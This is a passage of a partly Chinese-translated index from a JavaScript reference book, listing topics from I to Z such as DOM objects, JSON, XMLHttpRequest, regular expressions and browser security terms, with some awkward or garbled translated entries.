- `XSL 模板` 中的 `XPath queries` 以及
- `if . . else 语句`
- `iFrames（内联帧）`
  - 基础
  - 用于书签的 `cross-domain Ajax` 和 `iFrame approach`
  - `IFRAME object`
  - 作为 `WYSIWYGs`
- `IIS (Internet Information Services) server`
- `IMAGE object`
- `images`
  - `DOM` 加上
  - `image buttons`
  - `image injection`
  - `prites swapping (DHTML)`
- `immutability of strings`（字符串的不可变性）
- `implementation property (DOM)`
- `imported style sheets`（导入的样式表）
- `in` 运算符
- `increment (++) 运算符`
- `indexed arrays`（索引数组）
- `.indexOf()` 方法
  - `RegExp object` 与
  - 在字符串中搜索字符串
- `Infinity property (Global object)`
- `Infinity value`
- `inheritance`（继承）
  - 备替代方案
  - 基础
  - `prototypal inheritance`（原型继承）
  - `prototype-based subclassing`（基于原型的子类化）
  - `prototypes` 相关问题
- `initializing`（初始化）
  - 事件类型的 `initializers`
  - `UserData`
- `inline event binding`（内联事件绑定）
- `inline scripts`（内联脚本）
- `innerHTML property`
- `inputs`
  - `forms`
  - `INPUT objects`
- `Inspector, DOM`
- 安装 Gears 插件
- `instances`
- `instance properties (RegExp object)`
- `instanceof 运算符`
  - 创建对象
  - 创建正则表达式
- `integers`（整数）
- `integer literals`（整数字面量）
  - `Number object` 与
- `interfaces`（接口）
  - 定义的 `function interfaces`、`arguments object` 以及 `prototype` 问题以及
- `Internet Explorer.` *请参* `IE (Internet Explorer)`
- `interpreted languages`（解释型语言）
- `intervals, timers`（间隔、定时器）与
- `Ippolito, Bob`
- `isArray()` 方法
- `isBoolean()` 方法
- `isDate()` 方法
- `isFinite()` 函数
- `isFunction()` 方法
- `isNaN()` 函数
- `isNull()` 方法
- `isNumber()` 方法
- `isObject()` 方法
- `isRegex()` 方法
- `isString()` 方法
- `isType()` 函数
- `isUndefined()` 方法
- 迭代
  - `iterators` 与 `for loops`
  - 遍历数组
  - 遍历 DOM 节点

## J

- `Jagged Arrays`（锯齿数组）
- `Java Applets`
- `JavaScript.` *另请参* `browsers, JavaScript in`
  - `Flash 中的 ActionScript`
  - `AIR` 与 `BOM` 以及
  - 浏览器开发
  - `comments (reference)`（注释引用）
  - 从...控制 `QuickTime movies`
  - `CSS` 与 `desktop widgets` 以及
  - 用于学习的 `developers path`
  - `DOM` 与嵌入 `Silverlight movies` 配合 `engines`
  - `global functions`（全局函数）
  - `global properties`（全局属性）
  - Hello World
  - 历史
  - `HTML` 与 `浏览器中的局限性`
  - `literal notation`（字面量表示）
  - `object model equivalencies`（对象模型等效性）
  - `Object Notation (JSON).` *请参* `JSON (JavaScript Object Notation)`
  - `object oriented development`（面向对象开发）与
  - 开发所需的 `online resources`
  - `server-side`（服务器端）的流行性
  - `Silverlight communication` 与 `statements (reference)`
  - 使用 `browsers` 进行测试
  - `text editors`（文本编辑器）
  - `unobtrusive`（非干扰的）
  - 用于 `Web servers` 以及处理 XML。*请参* `E4X (ECMAScript for XML)`
- `JavaScript basics`
  - 块
  - `case sensitivity`（大小写敏感）
  - `character encoding`（字符编码）
  - `closures`（闭包）
  - `comments`（注释）
  - 数据类型。*请参* `data types`
  - `dynamic languages`（动态语言）
  - `identifiers`（标识符）
  - `implicit declaration`（隐式声明）
  - `literals`（字面量）
  - `memory and garbage collection`（内存与垃圾回收）
  - `prototype-based languages`（基于原型的语言）
  - `reserved words`（保留字）
  - `statements`（语句）
  - `variables`（变量）
  - `weak typing`（弱类型）
  - `whitespace`（空白）与 `icolons`（冒号）
- `JavaScript global objects`（JavaScript 全局对象）
  - `ActiveXObject`
  - `Array object`
  - `Boolean object`
  - `Date object`
  - `Debug object`
  - `Enumerator object`
  - `Error object`
  - `Function object`
  - `JSON object`
  - 列出
  - `Math object`
  - `Number object`
  - `Object()` 对象
  - `RegExp object`
  - `String object`
  - `VBArray object`
  - `XMLHttpRequest object`
- `JavaScript operators (reference)`（JavaScript 运算符引用）
  - `arithmetic`（算术）
  - `assignment`（赋值）
  - `bitwise`（位运算）
  - `comparison`（比较）
  - 按类别列出
  - `logical`（逻辑）
  - `miscellaneous`（杂项）
  - `string`
- `Johnson, Dave`
- `join()` 方法
- `JScript, Microsoft`
  - `backgroundprofiler`
  - `JSLint` 的版本
- `JSON (JavaScript Object Notation)`
  - `Ajax` 与
  - `custom replacement function`（自定义替换函数）
  - `custom revivers`（自定义还原器）
  - `custom toJSON()` 方法
  - `error handling`（错误处理）
  - `eval()`（安全）
  - 作为已评估的代码
  - `global object`（全局对象）
  - `JavaScript literal notation` 与
  - `JSONP (JSON with Padding)`
  - `labels`（标签）与 `encoding`（编码）
  - 加载 JSON 数据
  - `object literal format`（对象字面量格式）与概述
  - `security`（安全）以及将对象序列化与 XML 的对比
- `JSUnit (testing)`

## K

- `keystrokes, detecting (events)`（按键，检测（事件））
- `keywords`（关键词）
  - `reserved words`（保留字）
  - `var` 关键字

## L

- `labels`（标签）
  - `break statements`（中断语句）与
  - `and encoding (JSON)`（JSON 编码）
- `LABEL object`
- `label statements`（标签语句）
- `languages`（语言）
  - 浏览器中的检测
  - `dynamic`（动态）
  - `prototype-based`（基于原型的）
- `.lastIndexOf()` 方法
- `latency, defined (servers)`（延迟，定义（服务器））
- `Netscape Navigator` 中的层
- `Layout Engine`（布局引擎）
- `left()` 函数
- `LEGEND object`
- 数组的 `length`
- `property (strings)`（属性）
- `line breaks`（换行）
  - `string literals`（字符串字面量）中
  - `strings` 中
- `linear animation`（线性动画）
- `link/anchor objects`（链接/锚点对象）
- `.link(linkUrl)` 方法
- `listeners, event`（事件监听器）
- `literal notation`（字面量表示）
  - `array literal notation`（数组字面量表示）
  - `JSON` 与
- `literals`
  - 数组数组
  - `Boolean`
  - `floating-point`（浮点）
  - `integer`（整数）
  - `number`（数字）
  - `object`（对象）
  - `regular expression`（正则表达式）
  - `string` 对比 `variables`
- `little endian, defined`（小端，定义）
- 加载
  - `dynamic JSON data`
  - `load/unload events`
  - 加载后的 `JavaScript`
  - `XML.` *请参* `XML, loading`
- `local scope, defined`（局部作用域，定义）
- `localeCompare()` 方法
- `localStorage (DOM storage)`
- `Location object (window object)`
- `logical AND/OR statements`（逻辑与/或语句）
- `logical expressions`（逻辑表达式）
- `logical operators`（逻辑运算符）
  - 基础
  - `reference`（引用）
- 长操作（long-form operations）
- 变量查找，局部 vs 全局
- `loops`（循环）
  - `for . . in`
  - `break/label/continue 语句` 以及带有 `do . . while` 的闭包
  - `for each . . in`
  - 调优与代码优化
  - `while`
- `loose typing`（弱类型）

## M

- `masking, script`（脚本屏蔽）
- *Mastering Regular Expressions* (Friedl)
- `.match()` 方法
- `Math object`
  - 基础
  - `math utility methods`（数学工具方法）
  - `mathematical constants`（数学常数）
  - `random numbers`（随机数）
  - `repeated math calls`（重复数学调用）
  - `rounding numbers`（数字取入）
  - 日期值的数学运算
- `max-age attribute (cookies)`（cookie 属性）
- `memory`（内存）
  - `accidental closures`（意外闭包）与基础
  - `pointers, primitive data types`（指针，原始数据类型）与
- `merging objects`（合并对象）
- 向数组添加元素的方法
- 方法
  - `Array class`
  - `Array object`
  - `body object`
  - `Boolean object`
  - `Boolean wrapper class`（布尔包装类）
  - `BUTTON/SUBMIT/RESET objects`
  - `Canvas object`
  - 字符串中的 `capitalization`（大小写）与 `CHECKBOX/RADIO objects`
  - (cross-domain Ajax)（跨域 Ajax）的比较
  - 创建节点
  - 从字符串中切割
  - 实例方法（`RegExp object`）
  - 定义的 `document object`
  - `Error object`
  - `Event object`
  - 外部对象
  - `FILE object`
  - 格式字符串
  - 表单
  - `Function object`
  - 通用元素
  - `History object`
  - `<form>` 标签
  - `JSON object`
  - `Location object`
  - `Math object`
  - 数学工具方法
  - navigator 节点方法
  - `Number object`
  - 布尔包装类
  - `Object()` 对象
  - `POPUP object`
  - `Range object`
  - `RegExp object`
  - 从数组中移除项
  - 返回数字字符串
  - 搜索与替换
  - `SELECT object`
  - `Selection object`
  - 模拟私有方法
  - `Storage object`
  - `String object`
  - 字符串包装类
  - `styleSheet object`
  - `TEXT/PASSWORD/HIDDEN objects`
  - `TEXTAREA object`
  - `TextRange object`
  - `tr object`
  - `TreeWalker object`
  - `VBArray object`
  - `window object`
- Microsoft
  - DOM 历史与 `IE Developer Toolbar`
  - `Internet Explorer.` *请参* `IE (Internet Explorer)`
  - 安全模型
  - `Silverlight.` *请参* `Silverlight movies`
  - Visual Web Developer Express Edition
- Miller Device
- Miller, Mark
- 时间单位中的毫秒
- 压缩 JavaScript
- 模态对话框/窗口（示例）
- 模态/非模态窗口
- 模块名值
- 模块版本值
- 模运算运算符 (%)
- 鼠标
  - 按钮获取
  - (IE) 事件捕获模式
  - mouseenter/mouseleave 事件
  - 位置获取（事件）
- 电影
  - `Flash.` *请参* `Flash movies`
  - 带 DOM 的电影事件
  - 从 JavaScript 控制 QuickTime movies
  - `Silverlight.` *请参* `Silverlight movies`
- 移动/调整窗口大小
- Mozilla
  - 扩展权限在
  - `JavaScript Edition, versions of`
  - 安全策略
  - `signed scripts` 以及
- 多维数组
- 多行注释
- 多重继承，定义
- 多选框（表单）
- 变异器（mutators）
- 变异方法（DOM）
  - 性能对比的

## N

### `name 属性 (cookies)`

### `NamedNodeMap 属性`

### `NaN 属性`

非数值值和 `Number` 对象以及

### `navigator`

- `navigator.plugins` 数组
- 对象（浏览器）
- 属性和方法

### `nesting`

- 函数
- 嵌套数组
- 引号、字符串字面量和

### `Netscape Navigator` DOM 历史与安全模型

### `Neuberg, Brad`

### `new 关键字`

- 类定义、创建对象以及 `Object` 对象和 `new` 运算符

### `nodes (DOM)`

- 添加新文档片段
- 方法
- 变异器、比较的
- `NodeList 属性`
- `nodeType 属性`
- 属性
- 移除
- 重绘和重流
- 交换
- 类型
- XML DOM API

### `非延迟脚本`

### `非线性动画 (DHTML)`

### `非持久化 XSS`

### `<noscript>` 元素

### `Notepad++`

### `null 类型`

### `数字字面量`

### `Number 对象`

- 基础知识
- 转换为数字
- 整数和浮点值
- 最小值/最大值
- `NaN` 和数字字面量
- 数字和字符串
- 引用

### `numbers`

- 比较运算符和将字符串转换为
- 将类型转换为
- 处理 `Number` 对象的全局函数和随机四舍五入
- 字符串和

### `数值辅助函数 (全局函数)`

## O

### `objects`

- 用于 `for . . in` 循环和运行时的修改
- `arguments` 对象
- 基础知识
- 比较运算符和
- 创建
- 删除
- 删除未使用的
- 第一类
- 全局的、定义的 . *另另阅* JavaScript 全局对象
- 对象初始化器
- 对象字面量表示
- 对象字面量
- 对象模型等效性
- 对象指针和代码优化
- 对象原型
- 对象签名 `Object.__defineSetter__()` 方法
- `objectType()`  way 符
- 或原始类型，字符串作为
- 原始类型，对比. 原始数据类型
- 序列化为 JSON

### `objects, 用于对象的实用函数`

- `isType()` 函数
- 合并对象
- `typeof` 运算符和

### `Object 对象类`

- 基础知识
- 对象原型
- 属性
- 引用
- 对象的实用函数。*参见* 对象，对象的实用函数
- `valueOf()` 和 `toString()` 函数

### `面向对象开发`

- 数组、对象作为
- 克隆对象
- 比较对象
- 构造函数
- 创建对象
- 继承。*参见* 继承
- JavaScript 概览
- 私有成员
- 属性和对象，删除
- 原型
- 引用类型，对象作为
- 静态成员
- `this` 关键字

### `侵入式事件绑定`

### `onstorage 事件`

### `onstoragecommit 事件`

### `onSubmit 事件`

面向对象 编程。*参见* 面向对象开发

### `元素的透明度 (浏览器)`

### `打开/关闭窗口`

### `OpenSearch 标准 (浏览器)`

### `Opera, 用于...的 Dragonfly 调试工具`

### `运算符`

- 算术运算符
- 赋值
- 位运算
- 组合的（connubial）
- 比较
- 定义用于识别字符串内的组
- 按类别列出
- 逻辑
- 杂项
- 字符串的的优先级和结合性
- 类型的
- 不常见的

### `对角引号 (反引号) (字符串字面量)`

### `OS (操作系统) 检测类`

### `重载` 句。*参见* 函数重载

运算符

### `owningElement (IE)`

## P

### `页面权重，减少`

### `父帧`

### `父窗口`

- 与...通信
- 定义的

### `复杂表达式中的括号`

### `解析`

- 日期字符串
- 稀疏 `Error 属性`
- `parseFloat()` 函数
- `parseInt()` 函数

### `密码`

- 表单和 `PASSWORD/TEXT/HIDDEN` 对象

### `path 属性 (cookies)`

### `Penner, Robert`

### `性能`

- 变异器和正则表达式的比较以及
- 字符串操作和

### `性能优化`

- 问题分类
- 代码优化。*参见* 代码优化
- 代码性能分析
- DHTML 优化
- 页面权重减轻

### `Perini, Diego`

### `持久化`

- 客户端数据和持久化。*参见* 客户端数据和持久化
- 持久化 XSS

### `阶段, 连接 (XMLHttpRequest)`

### `网络钓鱼尝试`

### `插件，脚本执行`

- Flash。 *参见* Flash 电影
- Java Applets
- 带有 DOM 的电影事件
- 概览
- QuickTime (Apple)
- Silverlight. *参见* Silverlight 电影

### `加法 (+) 运算符`

### `PNG (便携网络图形) 格式`

### `指针`，原始数据类型和

### `策略，安全`

### `多态。` *参见* 函数重载

### `pop()` 方法

### `POPUP 对象`

### `定位，绝对/相对 (CSS)`

### 加载后执行 JavaScript

### `运算符的优先级`

### `原始数据类型`

- 复合类型到原始类型的转换
- 定义的转换
- 按值和引用传递
- 对比. 原始对象
- 对比. 引用数据类型

### `原始类型`

- Boolean，创建
- 或对象，字符串作为
- 字符串字面量和字符串原始类型
- 按字母顺序测试
- `valueOf()` 函数和

### `打印日期字符串`

### `私有/特权成员`

### `权限，扩展的 (Mozilla)`

### `程序化事件注册`

### `prompt()` 对话框

### `事件传播`

### `属性`

- `Area 对象`
- `Array 类`
- `Array 对象`
- `body 对象`
- `Boolean 对象`
- `Boolean 包装类`
- `BoxObject`
- `BUTTON/SUBMIT/RESET` 对象
- `Canvas 对象`
- `caption 对象`
- `CHECKBOX/RADIO` 对象
- `col/colgroup` 对象
- `cssRule (rule)` 对象
- 自定义事件对象
- `Date 类`
- 定义的
- 删除
- 确定...的性
- `document 对象`
- `DOM 按钮`
- `DOM`, CSS 属性和
- `Error 对象`
- `Event 对象`
- 外部对象
- `FIELDSET/Legend 对象`
- `FILE 对象`
- 表单元素
- 表单
- `FRAME 对象`
- `FRAMESET 对象`
- `Function 对象`
- 通用元素
- `Global 对象`
- `History 对象`
- `HTML <form>` 标签
- `IE 事件对象`
- `IFRAME 对象`
- `IMAGE 对象`
- `INPUT 对象`
- JavaScript 全局
- `LABEL 对象`
- `link/anchor 对象`
- `Location 对象 (窗口)`
- `Math 对象`
- 数学常数和
- 用于鼠标坐标
- `navigator`
- `nodes`
- `Number 对象`
- `Number 包装类`
- `Object() 对象`
- `POPUP 对象`
- `Range 对象`
- `RegExp 对象`
- `rule 对象`
- `screen 对象`
- `<script>` 元素
- `SELECT 对象`
- `Selection 对象`
- `Storage 对象`
- `String 对象`
- `String 包装类`
- `Style 对象`
- `style`, 读取/写入
- `styleSheet 对象`
- `td/th 对象`
- `TEXT/PASSWORD/HIDDEN 对象`
- `TEXTAREA 对象`
- `TextRange 对象`
- `tr 对象`
- `TreeWalker 对象`
- `window 对象`
- `XMLHttpRequest`

### `原型`

- 基础知识
- 定义的
- 基于原型的语言中的问题
- 原型链
- 原型方法

### `原型继承`

### `prototype 属性`

- 比较对象并使用...创建属性
- 使用... 扩展 `String 对象`
- 合并对象和原型继承以及

### `代理脚本 (Ajax)`

### `代理跟踪调试工具`

### `伪随机数`

### `伪线程 (动画)`

### `public 成员`，定义的

### `push()` 方法

## Q

### `QuickTime (Apple)`

### `怪异模式/模式 (quirks mode)`

### `字符串字面量中的引号`

## R

### `单选框`

### `random()` 方法

### `范围 (DOM)`

- 基础知识
- 边界
- 折叠
- 内容，更改
- 定义的 `Range 对象`
- 用户选择

### `读取`

- cookies
- 日期
- DOM 存储
- SQLite 数据
- UserData

### `readyState 属性 (XMLHttpRequest)`

*Really Simple History (Neuberg)*

`重绘。 *参见* 重绘`

### `引用数据类型`

- 数组作为
- 比较
- 定义的对象和
- 对象作为
- 对比. 原始数据类型

### `引用`

- 循环到表单
- 通过值和引用的操作
- 通过...传递参数的
- 引用...帧

### `重流 (DOM)`

- 基础知识
- 定义的 DHTML 优化以及
- 测量元素和
- 多个

### `RegExp 对象`

- 基础知识
- 引用
- 使用...搜索
- 静态属性
- 符号

### `RegisterScriptableObject()` 函数

### `事件注册`

- 基础知识
- 非侵入式

### `正则表达式 (RegExp)`

- 备选项
- 基础知识
- 包含方法，改进
- 定义
- 组
- 字面量. *参见* RegExp 对象
- 模式重用
- 位置
- 重复
- 特殊字符
- 基于分割
- 符号，编码

### `相对定位 (CSS)`

### 远程调试器

### `重绘`

- 基础知识
- 定义的 DHTML 优化以及

### `重复符号 (RegExp)`

### `replace()` 方法

### 替换函数，自定义 (JSON)

### 复制事件

### `请求头 (XMLHttpRequest)`

### 保留关键字

### `RESET/BUTTON/SUBMIT/ 对象`

### `reset()` 方法

### 重置表单

### `Resig, John`

### `resize 事件`

### 调整大小/移动窗口

### `响应头 (XMLHttpRequest)`

### `resultType` 常量

### 返回语句

### 反向循环，定义的

### 解析器，自定义 (JSON)

### `right()` 函数 (Visual Basic)

### `鼠标悬停 (动态 HTML)`

- 图像切换和 andmouseenter/mouseleave 事件

### `规则 (CSS)`

- 添加/移除
- 遍历所有
- 搜索

### `运行时错误`

## S

### S3 (简单存储服务)

### Safari

- 下载
- Safari 4 SQLite 数据库浏览器
- 检查器 (Web Inspector)

### 同源策略

### 同站策略

- 沙箱 (sandbox)，安全
- 保存 Flash 电影
- 作用域 (变量)
  - 基础
  - 执行上下文、函数和作用域链
- 屏幕
  - 对象属性
- 脚本
  - 块
  - 屏蔽
  - `<script>` 元素
  - `<SCRIPT>` 注入（跨域 Ajax）
  - 可脚本对象（浏览器）
  - 脚本插件。*参见*插件
  - 脚本
  - 脚本 z-index (CSS)
  - 安全和- 签名的类型
- 滚动事件
- 滚动条，宽度 (DHTML)
- 滚动窗口
- 搜索引擎，提供商
- 搜索与替换 (RegExp)
  - 基于用户输入的基础知识
  - `indexOf()` 和 `.lastIndexOf()` 方法
  - `match()` 方法
  - `replace()` 方法
  - `search()` 方法

### 安全

- ActiveX
- 数据安全
- 拒绝服务攻击
- `eval()` 函数和 JSON
- JSON 与新窗口
- 策略与区域
- 同源策略
- secure 属性 (cookies)
- 安全模型
- 签名的脚本
- `XMLHttpRequest`

### 选择框（表单）

### `SELECT` 对象

### 选择对象 (Selection object)

### 选择器，CSS

### `selectorText` 属性 (CSS 规则)

### Selenium 测试套件

### 语义错误

### JavaScript 编程中的分号 (`;`)

### 序列化

- 将对象转换为 JSON
- XML 转为文本

### 服务端 JavaScript

### 服务端代理方法

### 服务器

- 打开连接 (`XMLHttpRequest`)
- 服务器代理（跨域 Ajax）

### `sessionStorage` (DOM 存储)

### `setEnd()` 函数

### `setInterval()` 函数

### `setStart()` 函数

### Setter 方法 (setters)

- 访问私有成员和定义
- 读取/写入日期和

### `setTimeout()`

- 函数方法
- 定时函数

### SharedObject 对象 (Flash)

### `shift()` 方法

### 简写操作

### 签名的脚本

### Silverlight 电影

- 与 JavaScript 通信
- 使用 JavaScript 嵌入
- `RegisterableObject()` 函数
- 设置

### JavaScript 单行注释

### 单一源策略

### 字符串字量中的单引号 (`'` `'`)

### 单线程的，定义 (JavaScript)

### 大小

- 数组的
- 文本区域自动调整

### `slice()` 方法

### `sMethod` 参数 (Ajax)

### 源代码，下载

### 特殊字符

- 正则表达式中的
- 剥离
- Unicode 和

### `splice()` 方法

### `split()` 方法

### 编写

- 在 DHTML 中

### 为了提高页面下载速度

### SQLite 数据库

### 正则表达式中的方括号 (`[` `]`)

### 堆栈跟踪函数

### 标准模式。*参见*兼容模式

### 语句

- 基础
- 浏览器对...的支持
- 条件的
- 条件编译
- 定义的-异常处理
- JavaScript 函数 (引用)
- 循环和。*参见*循环
- 杂项

### `static Date.parse()` 方法

### `static Math.round()` 函数

### 静态成员

### 静态方法

- 定义
- 从 `String.fromCharCode()` 引用

### 静态属性

- 定义
- `RegExp` 对象

### 静态作用域

### 状态栏

- 浏览器窗口
- Ajax 请求的状态码和

### 存储。*另见*持久化

### Storage 对象 (Storage object)

### W3C DOM

### 严格相等 (比较运算符)

### `.strike()` 方法

### 字符串

- 数组和赋值运算符和
- 大写与比较
- 比较运算符和拼接
- 将原始类型转换为
- 转换为
- 创建
- 从...切割片段
- 编码
- 用于 URL 的编码
- 从...提取字符
- 格式化
- HTML 实体编码
- HTML 标签，剥离
- 不变性
- 长度
- 字面量中的换行符
- 非字母数字字符，剥离
- 数字和运算符
- 原始数据类型、原始和对象
- 打印日期字符串
- 搜索与替换。*参见*搜索与替换 (RegExp)
- 字符串字面量
- String 对象，扩展
- String 对象，概述
- `stringify()` 方法 (JSON)
- `String.split()` 方法
- 修剪空格并处理

### String 对象 (JavaScript)

- 扩展
- 概述
- 引用

### 强类型

### 样式表

- 添加/删除
- 导入
- 遍历所有
- `styleSheet` 对象

### 样式

- 计算后的 (CSS)
- 组合样式更改
- 属性，读取/写入
- Style 对象

### 提交，Web 表单

### `SUBMIT/BUTTON/RESET` 对象

### `submit()` 方法

### `substring()` 方法

### SunSpider JavaScript 性能

### `sUrl` 参数 (Ajax)

### 交换节点

### `SWFObject`，使用...嵌入 Flash 电影

### `switch` 语句

- 基础
- 浏览器对...的支持

### 符号

- 编码 `RegExp` 符号以识别字符串中的组
- 语法位置和-在 `RegExp` 表达式
- `RegExp` 对象
- 重复符号

### 同步请求 (`XMLHttpRequest`)

### 语法错误

## T

- 标签，HTML 保留
- 标签格式化器
- 目标，事件
- `tbody/thead` 对象
- 文本
- 浏览器测试
- TreeWalker 对象
- 信任区域
- 异常捕获
- 传输
- 挂钩
- 调- 优化的
- `try . . catch . . finally` 语句

## U

- 未定义数据类型
- 未定义全局属性
- 未定义的值
- 未定义值，定义的
- Unicode 字符标准
  - 基础
  - 字符编码和
- 卸载/加载事件
- 非阻塞式事件绑定
- 非阻塞式事件注册
- 非阻塞 JavaScript
- `unshift()` 方法
- URI 编码
- URL (统一资源定位符)
  - JavaScript 中的字符串编码
  - 长度限制
- 用户选择范围 (DOM)
- IE 中的 UserData
- UTC (协调世界时)

## V

- 表单验证
- 数值
- 日期/时间值
- 从存储中删除
- 浮点值，定义的
- 最小值/最大值
- 对象作为
- 按值传递参数
- 原始，布尔值
- 单选按钮字段和返回值和函数
- 下溢，定义的
- 文本输入的 value 属性
- `valueOf()` 函数
- `valueOf()` 方法
- `var` 关键字
- `var` 语句
- 变量
  - 条件编译
  - 定义-全局标识符
  - 隐式声明-vs. 字面量
  - 局部与全局变量查找
  - 内存和垃圾回收
  - 修改和比较
  - 可选参数和
  - 变量作用域
  - 弱类型
- `VBArray` 对象 (JavaScript)
- VML (矢量标记语言)
- 数据库版本控制 (SQLite)
- 竖线 (`|`) 逻辑或符号
- Visual Web Developer Express 版 (Microsoft)
- VML (矢量标记语言)
- void 运算符

## W

### W3C

- DOM
- DOM 存储

### 弱类型

### `Web Inspector (Safari 4)`

### Web 页面、DOM 和

### Web 服务器、JavaScript

### 用于下载的网站

- `AC_Quicktime.js` JavaScript 库
- `Charles Proxy Debugger`
- 地理定位数据提供插件
- `Fiddler`
- `Firebug`
- `gears_init.js` 文件
- Visual Studio 的 Silverlight 工具
- 测试工具
- 文本编辑器
- `YSlow`
- 用于获取更多信息的网站
- `Ajaxlt (Google)`
- DOM 标准
- 本书勘误
- JavaScript 开发
- JavaScript 引擎
- JavaScript-XPath 库
- JSLint
- P2P
- Penner, Robert
- RegExp 语法教程
- 服务端 JavaScript
- `Web Accelerator (Google)`
- `Web Standards Project (WaSP)`

### Web Workers 线程模块（浏览器）

### `while loops` 基础

### JavaScript 编程中的 `continue statements` 和 `whitespace`

### 字符串修剪 (strings)

### `widgets, desktop (JavaScript)`

### `window.name attribute`

- 数据安全与存储以及

### `windows` 事件

### 几何

### 历史

### 将内容加载到新

### 操控/移动/调整大小

### 新窗口、安全和对象

### 打开/关闭父窗口、与其通信

### 属性

### 滚动

### 设置状态栏位置

### 窗口特性值

### `window.close()` 方法

### `window.external.AddService()` 方法

### `windowFactory()` 函数

### `with keyword`

### `with { }` 语句

### 避免定义的重复数学调用以及 `WorkerPool 线程模块 (Gears)`

### 世界时间概述

### 世界时间标准

### 包装类

- 全局 `Array` 对象和
- 字符串和
- 包装类 `String`

### 包装器

### 将数据写入 DOM 存储

- SQLite 数据
- 用户数据 (UserData)

### `WYSIWYG editor`

## X

- `XHR.` - 参见 `XMLHttpRequest (XHR)`
- `XML (可扩展标记语言)`
  - 数据，使用 XSLT 转换
  - E4X vs JSON
  - 加载。参见 XML,加载
  - 序列化为文本
- `XML Path.` - 参见 `XPath (XML 路径语言)`
- `XML DOM API`
  - 元素和节点
  - 遍历 DOM
  - XPath 查询
- `XML,加载`
  - 反序列化文本
  - 外部文档
  - 使用 `XMLHttpRequest (XHR)` 处理错误
- `XMLHttpRequest (XHR)` 基础
  - 连接，打开
  - 跨域 Ajax 和用于更改数据的 GET 请求
  - 对象
  - 请求/响应头信息
  - 安全性
- `XOR operator`
- `XPath (XML 路径语言)` - 在 DOM 中定位元素
  - 查询
- `XSL (可扩展样式表语言)`
- `XSLT (可扩展样式表转换)`
- `XSS (跨站脚本攻击)`

## Y

- 黄色渐变技术 (yellow-fade technique)
- `YSlow` 插件

## Z

- `z-index, scripting (CSS)`
- 区域 (zones)
  - 安全

time
